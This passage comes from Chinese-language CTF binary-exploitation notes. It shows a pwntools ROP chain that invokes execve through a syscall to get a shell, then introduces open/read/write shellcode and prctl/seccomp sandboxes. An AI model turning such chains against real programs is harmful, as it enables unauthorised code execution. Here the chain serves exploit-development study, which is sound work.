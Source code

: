 ```python
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010053) # 0x0000000000410053: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000003992) # 0x0000000000403992: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x00000000000005af) # 0x00000000004005af: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074a25) # 0x0000000000474a25: syscall; ret; 
#print(rop)
o.sendline(rop)
o.interactive()
```

![image-20220316214419033](Self-help_Clown.assets/image-20220316214419033.png)



Ropper需要自己装, ROPgadget在装pwntools的时候就安装好了, 不需要操心, 各有优点吧, 有兴趣可以把chain执行哪些代码自己研究, 以后也可以自己写chain

### 实战

### 参考

## orw shellcode injection

### 介绍

正常的shellcode注入都是通过execve获取shell来进行的, 但是有时候会加上沙盒机制, 也就是禁用掉execve系统调用, 这就导致得换种方法来获取flag, 也就是这里所讲的orw(open, read, write)

### 沙盒

沙盒机制英文为sandbox，是一种虚拟技术，主要是用来针对于恶意程序，恶意程序调用的系统函数一般都是固定的，只要我们检测是否有调用这几个函数，那么就能判断该程序是否为恶意程序，进而退出程序执行，而不会对真实系统造成损坏
对于CTF主要针对于execve、write、open、read这类系统调用函数，来增加获取flag的难度，但是可以通过其他方法来实现"绕过"限制获取flag
现在CTF中实现沙盒主要有两种方式，第一种是靠prctl函数，这个是系统调用自带的，系统调用号为117，还有一种就是用seccomp库函数 

#### prctl沙盒
